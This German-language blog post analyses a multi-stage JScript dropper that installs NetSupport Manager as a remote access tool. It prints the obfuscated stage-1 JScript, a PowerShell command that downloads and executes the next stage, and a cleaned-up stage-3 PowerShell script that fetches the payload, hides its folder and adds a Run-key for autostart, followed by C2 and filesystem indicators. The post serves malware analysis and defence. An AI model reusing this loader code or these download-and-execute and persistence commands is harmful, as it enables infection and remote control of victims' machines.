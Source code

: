 ```yaml
---
title: "JScript delivered RAT"
date: 2023-04-28
draft: false
---
```


# *DISCLAIMER* 
**Das Herunterladen und ausführen von Malware, auch zum Zwecke der Analyse, ist gefährlich. Ich übernehme
keinerlei Haftung für etwaige Schäden bei Nachahmung!**

| UPDATE                                                                                                                                                            |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Neuere Varianten dieser Malware verteilen nicht direkt die jscript-Datei, sondern eine HTML-Datei, die im Javascript erst eine Zip mit dieser JScript-Datei baut! |

## Einführung
In diesem Blogeintrag möchte ich einen kleinen Einblick in die Analyse bzw. das reverse-eingineering von Malware geben.
Hier anhand einer Beispielmalware, die über Mehrere Stufen letztendlich "NetSupport Manager" als Remote Access Tool
(RAT) installiert.

Auf den ersten Blick scheint die Datei vergleichsweise harmlos, insbesondere wenn man z.B. in Windows nicht aktiviert
hat, dass der Dateiname vollständig (inkl. Endung) angezeigt wird. 
![Screenshot der Dateivorschau](/img/blog/Screenshot_from_2023-04_28-08-50-24.png)  

Sollte ein Windows-User die Datei zum öffnen Doppelklicken, wird sie, statt wie zu erwarten im konfigurierten PDF-Viewer
angezeigt zu werden, vom [Windows Script Host](https://de.wikipedia.org/wiki/Windows_Script_Host) mithilfe dessen
JScript-Engine ausgeführt.

## Stage 1
Die initial heruntergeladene Datei ist sehr stark [Obfuscated](https://de.wikipedia.org/wiki/Obfuskation), was das
Reverse engineering deutlich erschwert. Ein relativ einfacher Trick ist hier jedoch, die eigentlichen Aufrufe, die die
nächste Stage herunterladen wollen, so umzubauen, dass sie statt dem eigentlichen Aufruf jediglich den entsprechenden
Code ausgeben:

```js
LRVydqTXzFWJIfh = l(0x46, 'psLt'), PoHdrRpqKNwXVGyEDMO = V0(0x12, 'J7Hu'), CkMPuJXlbEaniIF = new ActiveXObject(LRVydqTXzFWJIfh + '.APPlIcatioN'), FNwMBmgDjPdaInUxO = new ActiveXObject(V1(0x3a, '3NAk'));
FNwMBmgDjPdaInUxO[V1(0x39, 'bmzj')](V3(0x85, 'KWPY')) == ![] && CkMPuJXlbEaniIF[V3(0xac, 'ClZu')](PoHdrRpqKNwXVGyEDMO, V5(0xbb, '^B7D') + LRVydqTXzFWJIfh + V0(0x14, 'O7y)') + V3(0x8f, 'EFHx') + V5(0x87, 'xnQ2') + 'kAG8AdwBuAGwAb' + V0(0x4b, '$gV2') + l(0x9d, 't[sl') + '0AH' + V1(0x3, 'T1lY') + 'dAB0AHAAcw' + V1(0x27, 'K!KR') + V3(0x22, '0N#q') + V4(0x9e, '3ZuB') + 'AGgAcwB1AHAAcABsAHkAdQBzAC4AYwBvAG0' + V3(0x48, 's#8T') + 'BsAG8AYwBhAGwAc' + V5(0x2c, 'YL@E'), '', V3(0x71, 'l!tn'), 0x0);
```
_Hier erstellt die Malware ein ActiveXObjekt mit der nächsten Stufe und führt diese aus._

```js
LRVydqTXzFWJIfh = l(0x46, 'psLt'), PoHdrRpqKNwXVGyEDMO = V0(0x12, 'J7Hu'), CkMPuJXlbEaniIF = new ActiveXObject(LRVydqTXzFWJIfh + '.APPlIcatioN'), FNwMBmgDjPdaInUxO = new ActiveXObject(V1(0x3a, '3NAk'));
console.log(FNwMBmgDjPdaInUxO + V1(0x39, 'bmzj') + V3(0x85, 'KWPY')) ;
console.log(CkMPuJXlbEaniIF + V3(0xac, 'ClZu') )
console.log(PoHdrRpqKNwXVGyEDMO + V5(0xbb, '^B7D') + LRVydqTXzFWJIfh + V0(0x14, 'O7y)') + V3(0x8f, 'EFHx') + V5(0x87, 'xnQ2') + 'kAG8AdwBuAGwAb' + V0(0x4b, '$gV2') + l(0x9d, 't[sl') + '0AH' + V1(0x3, 'T1lY') + 'dAB0AHAAcw' + V1(0x27, 'K!KR') + V3(0x22, '0N#q') + V4(0x9e, '3ZuB') + 'AGgAcwB1AHAAcABsAHkAdQBzAC4AYwBvAG0' + V3(0x48, 's#8T') + 'BsAG8AYwBhAGwAc' + V5(0x2c, 'YL@E'), '', V3(0x71, 'l!tn'), 0x0);
```
_Der gleiche Teil des Codes, aber entschärft und mit print-Statements. Das "ActiveXObject" ist jetzt eine einfache
Klasse mit String dahinter._

Wenn man diesen Code dann mithilfe von NodeJS ausführt, erhält  man den folgenden Output: 

```
remnux@remnux:~/Analysis/nitrogen-diet-florida-monkey$ node nitrogen-diet-florida-monkey.js
ShElL.APPlIcatioN
scriptIng.fIlesysTemobjeCt
[object Object]FolderExistsC:\userss
[object Object]ShellExecute
cmd/C POwerShElL -nop -w hidden -ep bypass -enc <BASE64String>  oPen 0
```

der Base64 kodierte String enthält diesen Powershellbefehl, der die nächste Stufe der Malware herunterlädt.
```powershell
IEX (New-Object Net.Webclient).downloadstring("<STAGE3URL>")
```

## Stage 3

Stufe 3 der Malware ist ein Powershell-Skript, das auch wieder obfuskiert ist, z.B. durch seltsame Groß/Kleinschreibung,
String-Formatierung und großzügig verteilten \`, die in Powershell als Escape verwendet werden (im Gegensatz zu den
meisten anderen Sprachen, die \\ verwenden). Zudem wurde der gesamte Code in eine Zeile geschrieben.  

```powershell
{rn`UM}=&("{2}{0}{1}"-f 'and','om','Get-R') -minimum 5 -maximum 9; ${r`Rn`UM}=&("{3}{2}{0}{1}"-f 'Rand','om','-','Get') -minimum 1024 -maximum 9999; ${CH`Rs}=("{8}{9}{6}{2}{10}{11}{12}{0}{14}{4}{13}{5}{3}{7}{1}" -f 'D','PRSTUVWXYZ','pstuvw','KLM','F','J','mno','NO','abcdefghi','jkl','x','yz','ABC','GHI','E'); ${R`STR}=''; ${r`An}=.("{0}{1}{2}{3}" -f'New-O','bje','c','t') ("{1}{0}{3}{2}"-f 'm.Ra','Syste','m','ndo');
```
_Ausschnitt aus dem Originalcode_

```powershell
#!/usr/bin/env pwsh

&('cd') ${ENV:appdata}
${link} = "https://<payloadurl>/wp-content/plugins/giveme.php"
${rnum} = 5
${rrnum} = 1337
${chrs} = "abcdefghijklmnopstuvwxyzABCDEFGHIJKLMNOPRSTUVWXYZ"
${rstr} = ''
${ran} = .(New-Object System.Random)
for (${i} = 0
    ${i} -lt ${r`NuM}
    ${I}++) { ${rstr} += ${chrs}[${ran}.next.Invoke(0, ${chrs}."length")] }
${rzip} = ${rstr} + ".zip"
${path} = ${ENV:`APPDATA} + '\' + ${rzip}
${pzip} = ${ENV: APPDATA} + "\ONEN0TEupdate_"
write-host (Start-Bitstransfer) -Source ${link} -Destination ${path}
&(Expand-Archive -path ${path} -destinationpath ${pzip})
${fold} = &(Get-Item) ${pzip} -Force
${fold}.Attributes = Hidden
&(Remove-Item) -path ${path}
&('cd') ${pzip}
Write-Output Start client32.exe
${fstr} = ${ENV:appdata} + ".\ONEN0TEupdate_1337\client32.exe"
${rnm} = ONEN0TEupdate_1337
Write-Output New-ItemProperty -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name ONEN0TEupdate_1337 -Value ${fstr}  -PropertyType String

```
_Stage3, aufgeräumt und vereinfacht_

Stufe 3 ist die Stufe, die letztendlich die eigentliche Payload herunterlädt. sowie einen Autostart-Registrykey
erstellt. 
Bei der Payload handelt es sich um eine vorkonfigurierte Version von NetSupport Manager, die sich mit dem C2-Server
verbindet.

## IOCs

### C2-Server
* blahadfurtik.com:5222 (IP: 89.22.237.94 )

### Lokal/Filesystem
* Ordner mit dem Namen "ONEN0TEupdate\_XXXX" in `C:/Users/<USER>/AppData/Roaming/`
* Registry-Key unter `HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` mit dem gleichen Namen wie der Ordner in
  Appdata und zu client32.exe in diesem zeigend




-----------
Verwendetes Sample: SHA256:00d87e984f0fcd2e8fb55e4b83d86027dac67fd073958a95cbc98961ab940f4b
Quelle: bazaar.abuse.ch
